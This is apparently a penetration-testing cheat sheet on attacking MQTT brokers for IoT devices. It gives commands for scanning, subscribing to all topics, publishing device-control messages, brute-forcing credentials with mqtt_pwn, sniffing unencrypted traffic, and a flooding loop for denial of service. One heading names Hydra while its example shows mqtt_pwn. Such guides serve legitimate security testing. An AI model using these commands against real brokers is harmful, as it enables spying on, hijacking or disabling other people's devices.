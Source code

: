 # MQTT

## **Theory**

MQTT (Message Queuing Telemetry Transport) is a lightweight, publish-subscribe network protocol designed for IoT (Internet of Things) devices. It enables low-bandwidth, real-time communication between clients and a broker. MQTT is widely used in IoT applications, such as smart home systems, health monitors, and industrial automation.

Pentesters often target MQTT brokers to exploit weaknesses in authentication, authorization, encryption, and message integrity, as these systems may expose sensitive data or allow attackers to manipulate device behavior.

## **Requirements**

1. Hardware
   * Laptop or PC to run pentesting tools.
   * Access to MQTT broker/IoT device network for testing.
2. Software
   * mosquitto\_pub and mosquitto\_sub (MQTT client utilities for publishing/subscribing messages).
   * MQTT-Explorer (GUI tool for analyzing MQTT topics and messages).
   * Wireshark (for network packet analysis).
   * Nmap (for discovering MQTT services).
   * Burp Suite (for traffic manipulation, useful if MQTT uses web interfaces or APIs).

## **Cheat Sheet**

```bash
# Discover MQTT Broker
nmap -p 1883,8883 -sV <target_ip>

# Subscribe to all topics (listen for messages)
mosquitto_sub -h <broker_ip> -p 1883 -t "#" -v

# Publish a message to control an IoT device
mosquitto_pub -h <broker_ip> -p 1883 -t "home/lights" -m "off"

# Brute-force MQTT broker credentials with mqtt_pwn
~/mqtt_pwn ⇒ python run.py  # Start mqtt_pwn
localhost:1883 >> bruteforce --help

# Capture unencrypted MQTT traffic (use with Wireshark)
tcp.port == 1883

# Denial-of-Service (DoS) Attack on MQTT Broker
while true; do
  mosquitto_pub -h <broker_ip> -p 1883 -t "spam/topic" -m "junk data";
done
```

## **Common Attacks**

1.  Discovering MQTT Broker

    * MQTT brokers typically listen on TCP port 1883 (unencrypted) or 8883 (TLS/SSL). The first step in pentesting an MQTT environment is identifying the broker and verifying if it is publicly&#x20;

    Command Example (Discovering MQTT Broker via Nmap):

    ```bash
    nmap -p 1883,8883 -sV <target_ip>
    ```

    This scans for open MQTT ports on the target IP and reports service details.
2.  Subscribing to MQTT Topics

    * Once the broker is identified, you can subscribe to topics and listen for messages. If the broker allows anonymous access or lacks proper authentication, an attacker can monitor sensitive data being transmitted between IoT devices.

    Command Example (Subscribing to All Topics):

    ```bash
    mosquitto_sub -h <broker_ip> -p 1883 -t "#" -v
    ```

    This subscribes to all topics (`#` is a wildcard) on the broker, displaying message content in real time.
3.  Publishing Malicious Messages

    * Attackers can publish malicious commands to control IoT devices if the broker has weak or no authorization mechanisms. For example, you could control a smart home device by publishing messages on its control topics.

    Command Example (Publishing a Message to a Topic):

    <pre class="language-bash"><code class="lang-bash"><strong>mosquitto_pub -h &#x3C;broker_ip> -p 1883 -t "home/lights" -m "off"
    </strong></code></pre>

    This command publishes the message `off` to the `home/lights` topic, potentially turning off the smart lights.
4.  Brute-Forcing MQTT Credentials

    * Some MQTT brokers require authentication, but weak credentials can often be brute-forced. By using common username/password combinations, an attacker might gain access to the broker.

    Command Example (Brute-Forcing MQTT Credentials with Hydra):

    ```bash
    ~/mqtt_pwn ⇒ python run.py #start mqtt_pwn
    localhost:1883 >> bruteforce --help
    usage: bruteforce [-h] [-u USERNAME [USERNAME ...] | -uf USERNAMES_FILE]
                      [-p PASSWORD [PASSWORD ...] | -pf PASSWORDS_FILE]
    ```
5.  Exploiting Insecure MQTT Connections (Man-in-the-Middle Attack)

    * If the broker uses unencrypted connections (on port 1883), you can perform a man-in-the-middle (MITM) attack by capturing MQTT traffic and injecting commands or stealing data.

    Command Example (Wireshark Capture Filter for MQTT Traffic):

    ```bash
    tcp.port == 1883
    ```

    This captures unencrypted MQTT traffic, allowing you to inspect and manipulate messages.
6.  Denial of Service (DoS) Attack on MQTT Broker

    * Flooding the broker with excessive publish/subscribe requests can overwhelm it, causing a denial-of-service (DoS) and preventing legitimate devices from communicating.

    Command Example (Flooding MQTT Topics with Junk Data):

    ```bash
    while true; do
      mosquitto_pub -h <broker_ip> -p 1883 -t "spam/topic" -m "junk data";
    done
    ```

    This loop repeatedly publishes junk data to overwhelm the broker.

## **Resources**

[**https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto**](https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto)[**https://mqtt-pwn.readthedocs.io/en/latest/plugins/brute.html**](https://mqtt-pwn.readthedocs.io/en/latest/plugins/brute.html)\
[**https://securitycafe.ro/2022/04/08/iot-pentesting-101-how-to-hack-mqtt-the-standard-for-iot-messaging/**](https://securitycafe.ro/2022/04/08/iot-pentesting-101-how-to-hack-mqtt-the-standard-for-iot-messaging/)
